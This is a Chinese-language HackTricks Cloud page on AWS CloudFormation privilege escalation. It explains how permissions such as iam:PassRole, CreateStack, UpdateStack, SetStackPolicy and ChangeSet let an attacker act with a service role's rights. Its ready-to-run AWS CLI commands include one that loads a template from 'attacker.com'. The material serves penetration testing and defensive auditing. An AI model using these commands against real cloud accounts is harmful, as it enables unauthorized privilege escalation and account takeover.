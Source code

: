 # AWS - Cloudformation Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}

## cloudformation

有关 cloudformation 的更多信息，请查看：

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

拥有这些权限的攻击者 **可以提升权限**，通过制作一个 **CloudFormation 堆栈**，使用托管在其服务器上的自定义模板，**以指定角色的权限执行操作：**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
在以下页面中，您有一个 **利用示例**，附加权限为 **`cloudformation:DescribeStacks`**：

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `iam:PassRole`，(`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

在这种情况下，您可以 **滥用现有的 cloudformation 堆栈** 来更新它并提升权限，如前面的场景所示：
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到指定的 cloudformation 服务角色。

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

如果你拥有这个权限但 **没有 `iam:PassRole`**，你仍然可以 **更新使用的堆栈** 并滥用 **它们已经附加的 IAM 角色**。查看前面的部分以获取利用示例（只需在更新中不指明任何角色）。

`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `UpdateStack` 权限** 以便对一个堆栈进行攻击。

**潜在影响：** 提升到已经附加的 cloudformation 服务角色。

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

拥有 **传递角色和创建 & 执行 ChangeSet** 权限的攻击者可以 **创建/更新一个新的 cloudformation 堆栈，滥用 cloudformation 服务角色**，就像使用 CreateStack 或 UpdateStack 一样。

以下利用是 **变体**[ **CreateStack 的**](./#iam-passrole-cloudformation-createstack)，使用 **ChangeSet 权限** 来创建一个堆栈。
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
`cloudformation:SetStackPolicy` 权限可以用来 **给自己 `ChangeSet` 权限** 以便对一个堆栈执行攻击。

**潜在影响：** 提升到 cloudformation 服务角色。

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

这与之前的方法类似，不需要传递 **IAM 角色**，所以你可以 **滥用已经附加的角色**，只需修改参数：
```
--change-set-type UPDATE
```
**潜在影响：** 提升到已附加的 cloudformation 服务角色。

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

攻击者可以滥用这些权限来创建/更新 StackSets，以滥用任意 cloudformation 角色。

**潜在影响：** 提升到 cloudformation 服务角色。

### `cloudformation:UpdateStackSet`

攻击者可以在没有 passRole 权限的情况下滥用此权限来更新 StackSets，以滥用附加的 cloudformation 角色。

**潜在影响：** 提升到附加的 cloudformation 角色。

## 参考

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
